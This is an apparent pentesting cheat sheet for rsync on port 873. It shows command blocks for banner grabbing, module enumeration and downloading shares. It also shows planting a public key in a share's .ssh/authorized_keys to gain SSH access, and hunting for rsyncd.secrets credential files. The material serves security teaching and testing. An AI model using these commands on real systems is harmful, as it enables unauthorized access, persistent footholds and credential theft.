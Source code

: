# Pentesting Rsync

## Rsync port 873

* Basic information
* rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification timesand sizes of files.

```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

* Enumerate shared folders
* An rsync module is essentially a directory share. These modules can optionally be protected by a password.
* This options lists the available modules and, optionally, determines if the module requires a password to access:

```
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```

* Manual Rsync
* List a shared folder

```
rsync -av --list-only rsync:/10.10.232.5/shared_name
```

* Copy all files to your local machine via the following command:

```
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```

* If you have credentials you can list/download a shared name using (the password will be prompted):

```
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```

* You could also upload some content using rsync (for example, in this case we can upload an authorized\_keys file to obtain access to the box):

```
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
#full command syntax below
rsync -av id_rsa.pub rsync://rsync-connect@10.10.63.208/files/sys-internal/.ssh/authorized_keys
```

* Find the rsyncd configuration file:

```
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

* Inside the config file sometimes you could find the parameter `secrets file = /path/to/file` and this file could contains usernames and passwords allowed to authenticate to rsyncd.

